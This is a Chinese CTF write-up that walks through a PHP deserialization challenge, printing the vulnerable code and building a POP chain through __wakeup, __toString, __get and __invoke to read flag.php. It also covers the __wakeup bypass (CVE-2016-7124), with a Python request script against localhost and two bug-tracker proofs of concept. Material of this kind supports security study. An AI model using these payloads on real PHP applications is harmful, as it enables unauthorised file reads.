

苏师傅给了一道反序列化题，卑微的我在多次提示的情况下搞出来了。。

## 分析

```php
<?php
error_reporting(1);
class Read {
    public $var;
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }

/**
 * 尝试将$read()当作函数调用时会触发这个方法
 * @return [type] [description]
 */
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}

class Show
{
    public $source;
    public $str;
    //此处可以触发__toString方法
    public function __construct($file='index.php')
    {
        $this->source = $file;
        echo $this->source.'Welcome'."<br>"; //此处有字符串拼接
    }

    /**
     * 假设这里可以触发__get方法，怎么触发__toString方法
     */
    public function __toString()
    {
        $this->str['str']->source;
    }

    public function _show()
    {
        if(preg_match('/gopher|http|ftp|https|dict|\.\.|flag|file/i',$this->source)) {
            die('hacker');
        } else {
            highlight_file($this->source); //其实这里也可以读文件但是好像没什么乱用
        }

    }

    public function __wakeup()
    {
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test
{
    /**
     * 将$p覆盖为read 就能触发Read类的__invoke方法，如何触发__get方法
     */
    public $p;
    public function __construct()
    {
        $this->p = array();
    }

    public function __get($key)
    {
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['hello']))
{
    unserialize($_GET['hello']);
}
else
{
    $show = new Show('index.php');
    $show->_show();
}
```

代码中有一点我当初的思考过程，其实利用的思路并不是很难，关键是你一定要知道自己想要干嘛。

目标就是`Read`函数中的`file_get`函数，其他的函数虽然也可以读文件，但是利用点还是在这里，(因为我们没办法控制`_show` 方法的参数)

要想调用`file_get`函数，看到有一个`__invoke`方法，这个方法触发的条件是:当类的一个对象被当作函数调用的时候触发，也就是`Test`类中

```php
public function __get($key)
{
    $function = $this->p;
    return $function();
}
```

如果我们能覆盖掉`$this->p`为`Read`类的一个对象，后面`$function()`就是将这个对象当作函数调用

那么如何触发`__get`方法呢？这个方法的触发条件就是访问类中的私有属性或者是不存在的属性时，

此时看到`Show`的

```php
public function __toString()
{
    $this->str['str']->source;
}
```

如果`$this->str['str']`被覆盖为`Test`类，那么此时就相当于访问`Test`类中不存在的属性，自然就会触发`__get`方法了

## 我的难点

也许是我一直忽视了`__toString`函数触发的条件 ，这个方法的触发条件是比较简单，但是又比较容易忽视的，我关注到了

```php
public function __construct($file='index.php')
{
    $this->source = $file;
    echo $this->source.'Welcome'."<br>"; //此处有字符串拼接
}
```

此处存在一个字符串拼接，所以可以触发`__toString`方法，但是`__construct`方法在反序列化中是没有什么价值的。导致我一度很纠结，觉得是不是少了一个`__destruct`方法。

后来。。。。

---

原来问题出在

```php

public function __wakeup()
{
    if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
        echo "hacker";
        $this->source = "index.php";
    }
}
```

此处的`preg_match`也是将其当作字符串来使用，所以显而易见(至少对于之前的我来说不是)会触发`__toString`方法

## exp

```php
<?php 

class Show{
	public $source;
	public $str;
}

class Test{
	public $p;
}

class Read{
	public $var = "flag.php";
}

$s = new Show();
$t = new Test();
$r = new Read();

$t->p = $r;
// $s->str = array("str"=>"Test");
$s->str["str"] = $t;
$s->source = $s;
var_dump(serialize($s));

 ?>
```



## 拓展

我在找资料的过程中，还发现了`__wakeup`函数的一个漏洞

[php反序列化绕过\_\_wakeup](https://mochazz.github.io/2018/12/30/PHP反序列化bug/)

```php
<?php 

class ReadFile{
	private $file='';
	public function __construct(){
		$this->file = $file;
	}
	function __destruct(){
		$image = file_get_contents($this->file);
		header('Content-type: image/png');
		echo $image;
	}
	function __wakeup(){
		$this->file = 'code.png';
	}
}

// unserialize($str2);
if(isset($_GET['filename'])){
	$filename = $_GET['filename'];
	$filename=str_replace('flag', '', $filename);
	@unserialize($filename);
}else{
	$image = file_get_contents("code.png");
	header('Content-type: image/png');
	echo $image;
}

 ?>
```

这个题目中反序列化之后肯定会调用`__wakeup`方法，但是在这个方法中，强制给`$this->file`赋值为`code.png`

导致最后的`__destruct`不能够读取其他的文件

但是如果我们在反序列化后的数据中做一定的修改,将其属性的数量修改2就可以绕过`__wakeup`方法

说是这么说，但是我在调试的过程中怎么也不能触发`__wakeup`方法

```python
import requests
from urllib.parse import quote

URL = "http://localhost/audit/roarCTF2019/audit3.php"

p1 = 'O:8:"ReadFile":1:{s:14:"\000ReadFile\000file";s:8:"flag.php";}'

p2 = 'O:8:"ReadFile":2:{s:14:"'+quote('\000')+'ReadFile'+quote('\000')+'file";s:8:"flflagag.php";}'

p3 = 'O:4:"Test":0:{}'

p4 = 'O:8:"ReadFile":1:{s:4:"file";s:8:"flag.php";}'
payload = {'filename': (p2)}
res = requests.get(URL, params=payload)

print(res.content)
```

漏洞的详情如下：

> 谷歌发现了CVE-2016-7124，一个月前爆出的。简单来说就是当序列化字符串中，如果表示对象属性个数的值大于真实的属性个数时就会跳过`__wakeup`的执行 参考[https://bugs.php.net/bug.php?id=72663，](https://bugs.php.net/bug.php?id=72663，)

查阅bugs.php网站，看到了两个POC

```php
<?php

ini_set('session.serialize_handler', 'php_serialize');
session_start();
$sess = 'O:9:"Exception":2:{s:7:"'."\0".'*'."\0".'file";R:1;}';
session_decode($sess);
echo $_SESSION;

?>
```

和

```php
<?php

class obj implements Serializable {
    var $data;
    function serialize() {
        return serialize($this->data);
    }
    function unserialize($data) {
        $this->data = unserialize($data);
    }
}

$inner = 'a:1:{i:0;O:9:"Exception":2:{s:7:"'."\0".'*'."\0".'file";R:4;}';
$exploit = 'a:2:{i:0;C:3:"obj":'.strlen($inner).':{'.$inner.'}i:1;R:4;}';

$data = unserialize($exploit);
echo $data[1];

?>
```

但是本地并没有调试成功
